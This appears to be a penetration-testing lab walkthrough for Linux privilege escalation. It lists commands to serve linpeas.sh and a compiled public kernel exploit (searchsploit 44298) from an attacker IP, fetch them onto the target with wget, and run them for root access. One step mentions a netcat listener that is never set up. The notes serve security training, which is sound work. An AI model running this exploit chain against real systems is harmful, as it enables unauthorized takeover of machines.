

Privilege Escalation

Privilege Escalation

# Works
1. On Kali machine, go to the directory where linpeas.sh is stored, then create a python server
`python -m SimpleHTTPServer 5678`

2. On the target, download linpeas.sh to the target's /tmp directory using wget
`wget http://192.168.119.214:5678/linpeas.sh /tmp`

3. Notice that the netcat listener on Kali should show the GET request from the target 

4. Change the permissions so that linpeas.sh can be executed
`chmod +x linpeas.sh`

5. Run linpeas.sh and redirect to a file.
`./linpeas.sh > linout.txt`

6. The first item that absolutely must be looked at is the OS. It is Linux version 4.4.0-116-generic.

7. Searchsploit 'Ubuntu 4.4.0-116' and download
`searchsploit ubuntu 4.4.0-116`
`searchsploit -m 44298`
8. Compile the exploit
`gcc 44298.c -o exploit`

9. Run the python simple server command in the directory where the compiled exploit is located
`python -m SimpleHTTPServer 5678`

10. From the target, download the exploit using wget
`wget http://192.168.119.214:5678/exploit`

11.Change the permissions to make it executable
`chmod +x exploit`

12. Run the exploit, we are now root!
`./exploit`

